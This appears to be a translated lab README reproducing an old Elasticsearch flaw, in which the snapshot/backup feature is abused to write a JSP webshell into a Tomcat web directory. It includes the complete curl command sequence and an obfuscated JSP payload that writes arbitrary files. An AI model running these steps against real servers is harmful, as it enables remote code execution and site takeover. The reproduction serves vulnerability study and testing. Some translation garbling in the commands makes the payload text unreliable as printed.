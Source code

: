 # ElasticsearchWriting webshell Vulnerability (WooYun-2015-110216)

Reference article: http://cb.drops.wiki/bugs/wooyun-2015-0110216.html

## Principle

ElasticSearch has the ability to back up data, allowing users to pass in a path to back up data to that path, with file names and suffixes being controllable.

So, if you run other services like the Tomcat, PHP, etc. under the file system, we can use the backup function of ElasticSearch to write a webshell.

Similar to CVE-2015-5531, this vulnerability is related to the backup repository. After elasticsearch1.5.1, it limits the root path of the backup repository to the configuration file `path.repo` of the configuration file, and if the administrator does not configure this option, it cannot be used by default. Even if the administrator has configured this option, the web path cannot be written to the webshell if it is not in the directory. So the version of ElasticSearch affected by this vulnerability was 1.5.x before.

## test environment

Compile and start the test environment:

```
Docker-compose build
Docker-compose up -d
```

Briefly introduce the test environment. This test environment runs both Tomcat and ElasticSearch, the Tomcat directory is `/usr/local/tomcat`, the web directory is `/usr/local/tomcat/webapps`, and the ElasticSearch directory is `/usr/share/elasticsearch`.

Our goal is to use ElasticSearch to write our webshell in the `/usr/local/tomcat/webapps` directory.

## Testing process

First create a malicious index document:

```
Curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112}))),new String(new byte[]{114,119})).write(request.getParameter(new) String(new byte[]{102})).getBytes());%>":"test"}
'
```

Create another malicious repository, where the value of `location` is the path I want to write.

> Director: The path to this Repositories is interesting because it can be written anywhere you can access it and will be created automatically if it does not exist. That is to say you can create any folder through the file access protocol. Here I point this path to the tomcat web deployment directory, because as long as the directory is created in this folder, Tomcat will automatically create a new application (the file name is wwwroot, the application name is wwwroot).

```
Curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

The repository is validated and created:

```
Curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

carry out!

Visit `http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`, this is the webshell we wrote.

The role of the shell is to write arbitrary strings to the test.jsp file under wwwroot, such as: `http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success `, we can see success by visiting /wwwroot/test.jsp:

![](1.png)